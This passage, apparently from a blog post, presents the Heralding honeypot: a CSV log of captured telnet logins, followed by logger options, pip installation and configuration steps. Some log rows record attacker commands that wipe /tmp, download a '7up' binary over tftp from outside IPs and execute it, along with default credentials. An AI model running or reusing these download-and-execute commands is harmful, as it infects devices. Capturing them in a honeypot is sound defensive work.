 2016-12-14 21:50:25.400807,20176c33-2b0e-442d-8cb5-9ceeacb3718a,05a16a5e-5894-48f4-b8c2-2784db344bb4,218.191.87.87,57080,,23,telnet,enable,system
2016-12-14 21:50:26.912134,384ef065-7455-482b-85d5-a008acd7c4e2,05a16a5e-5894-48f4-b8c2-2784db344bb4,218.191.87.87,57080,,23,telnet,shell,sh
2016-12-14 21:50:43.214470,1d4a03e1-9e58-4077-9073-c98f42ff8eea,3bb05f01-5013-4ade-9380-4bd65e9b3a43,218.191.87.87,59514,,23,telnet,root,5up
2016-12-14 22:03:37.481102,d2743ce8-7746-4257-8977-2efc4a00456d,be92c26b-1a68-4681-b0a9-2bf7ecbb95ab,82.50.48.173,44297,,23,telnet,root,5up
2016-12-14 22:12:33.569926,aa24d9d8-673e-4078-8eaa-ccd47291731d,f4cf86b9-8e0f-4e5f-9e53-9d6de94bbf4a,46.118.141.45,39142,,23,telnet,root,5up
2016-12-14 22:12:34.516482,c49c5124-2c70-4641-94f5-401a4d429a8f,f4cf86b9-8e0f-4e5f-9e53-9d6de94bbf4a,46.118.141.45,39142,,23,telnet,cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 185.35.139.97;chmod a+x 7up;./7up,system
2016-12-14 22:13:03.875886,3ba63f0d-f5e9-496e-81cf-27e7276be55d,e2cd94e9-6fa3-4dc4-8eff-6e305249f999,46.118.141.45,39222,,23,telnet,Admin,5up
2016-12-14 22:13:04.819522,7882d490-a4ba-4d4f-8163-ded2a8e1418f,e2cd94e9-6fa3-4dc4-8eff-6e305249f999,46.118.141.45,39222,,23,telnet,cd /var/tmp;cd /tmp;rm -f *;tftp -l 7up -r 7up -g 185.35.139.97;chmod a+x 7up;./7up,system
2016-12-14 22:49:01.820774,414baba3-e0e5-4faf-9b66-ed3dcc18102f,75ea44c5-2ee1-4444-989a-1d95c1d121d5,89.121.167.211,33987,,23,telnet,root,5up
2016-12-14 22:52:55.217834,c7daea94-9b68-48f6-bc16-8e172e3dba23,87612fe2-a42c-426a-985c-46a90d432d72,77.105.72.253,49141,,23,telnet,root,5up
2016-12-14 22:54:24.332999,f1766355-b3c0-434c-8298-99d5b7c9fd88,231fbe16-2975-4752-bf45-33fa5304d6f9,37.115.145.181,51296,,23,telnet,Admin,5up
2016-12-14 22:54:25.300647,971c2806-6d2a-4d07-b1b3-31548dcfb813,231fbe16-2975-4752-bf45-33fa5304d6f9,37.115.145.181,51296,,23,telnet,cd /tmp;rm -f *;tftp -l 7up -r 7up -g 93.190.142.201;chmod a+x 7up;./7up,system

{% endhighlight %}

## Loggers

* Syslog alert
* Local CSV file
* JSON over ZMQ

## Installation

This is my recommended installation steps.  I usually use python virtualenv in order to keep the install isolated from the rest of my environment.

{% highlight bash %}
virtualenv /opt/heralding
source /opt/heralding/bin/activate
pip install heralding
{% endhighlight %}

## Configuration

{% highlight bash %}
cd /opt/heralding/
cp lib/python2.7/site-packages/heralding/heralding.yml heralding.yml
# enable/disable reporters or protocols
vi heralding.yml
{% endhighlight %}
